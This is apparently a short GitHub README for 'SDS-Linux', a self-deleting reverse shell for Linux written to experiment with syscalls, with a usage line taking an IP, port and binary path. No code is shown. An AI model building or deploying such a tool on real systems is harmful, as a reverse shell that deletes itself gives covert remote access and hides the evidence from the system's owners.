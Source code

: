 # SDS-Linux
A simple self deleting reverse shell make for linux I made to play around with syscalls

Usage: .\shell <IP> <PORT> <BINARYPATH>
